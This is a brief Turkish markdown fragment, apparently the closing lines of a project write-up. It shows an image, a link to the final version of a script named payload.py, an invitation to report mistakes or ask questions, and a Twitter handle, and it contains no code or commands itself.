

Ve son...

Scriptin son hali [link](./payload.py)

Eksik/Hata/Yanlış/Fazla/Soru herşeyi iletebilirsiniz

Twitter: @lntrx
